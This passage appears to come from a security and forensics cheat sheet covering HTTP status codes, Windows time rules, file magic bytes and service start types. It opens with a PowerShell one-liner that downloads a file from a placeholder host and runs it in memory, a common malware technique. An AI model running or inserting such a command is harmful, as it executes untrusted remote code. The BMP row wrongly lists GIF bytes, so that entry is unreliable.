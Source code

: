```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```
When a client submits a request to a webserver the server will respond with a three-digit code. Below is a brief list of those codes. 

| Code |	Reason |
| :--- | :--- |
| 100, Continue |	After the server receives the headers for a request, this directs the client to proceed. |
| 200, OK |	Possibly the most common value, indicates the server was able to fulfill the request without incident. |
| 301, Moved permanently |	The server provides a new URL for the requested resource, and the client then ostensibly makes that request. "Permanent" means the original request should be assumed outdated. |
| 302, Found |	In practice, a temporary relocation, although this is not strictly in compliance with the standard. |
| 304, Not modified |	Indicates the requested resource has not changed since it was last requested.|
| 400, Bad syntax |	The request was somehow syntactically incorrect. |
| 401, Unauthorized |	Client must authenticate before the response can be given. |
| 403, Forbidden |	Request was valid, but client is not permitted access (regardless of authentication). |
| 404, Not found |	Requested resource does not exist. |
| 407, Proxy authentication required |	Like 401, but for the proxy server. |
| 500, Internal server error |	Generic server error message. |
| 503, Service unavailable |	Server is overloaded or undergoing maintenance. |
| 511, Network authentication required |	Client must authenticate to gain access-used by captive proxies such as at Wi-Fi hotspots. |

<a name="win-time-rules"></a>
### Windows time rules
[*back to table of contents*](#b2t)

This is a pdf taken from the SANS website that provides a quick explaination of time rules with different file operations. Check out the top right table on the following poster: <https://www.sans.org/security-resources/posters/windows-forensic-analysis/170/download>.

<a name="magic-bytes-common-files"></a>
### Magic bytes for common files
[*back to table of contents*](#b2t)

While these are the common magic bytes that you’ll come across a comprehensive list can be found at: <https://en.wikipedia.org/wiki/List_of_file_signatures>.

| Type |	Mnemonic |	Byte Signature (0x) |
| :--- | :--- | :--- |
|DOS exe|	MZ	|4D 5A|
|PE32 exe|	MZ….PE..	|4D 5A … 50 45 00 00|
|ELF exe|	.ELF	|7F 45 4C 46|
|Zip archive (also word docs)|	PK..	|50 4B 03 04|
|Rar archive|	Rar!....	|52 61 72 21 1A 07 01 00|
|7z archive|	7z¼¯'	|37 7A BC AF 27 1C|
|Gzip archive|	..	|1F 8B|
|PNG image|	.PNG….	|89 50 4E 47 0D 0A 1A 0A|
|BMP image|	BM	|47 49 46 38 37 61|
|GIF image|	GIF87a	|47 49 46 38 37 61|
|	|GIF89a	|47 49 46 38 39 61|
|pcap file|	¡²ÃÔ	|A1 B2 C3 D4|
|	|ÔÃ²¡	|D4 C3 B2 A1|
|pcapng file|	….	|0A 0B 0C 0D|
|PDF document|	%PDF-	|25 50 44 46 2D|

<a name="service-start-types"></a>
### Servcie start types
[*back to table of contents*](#b2t)
```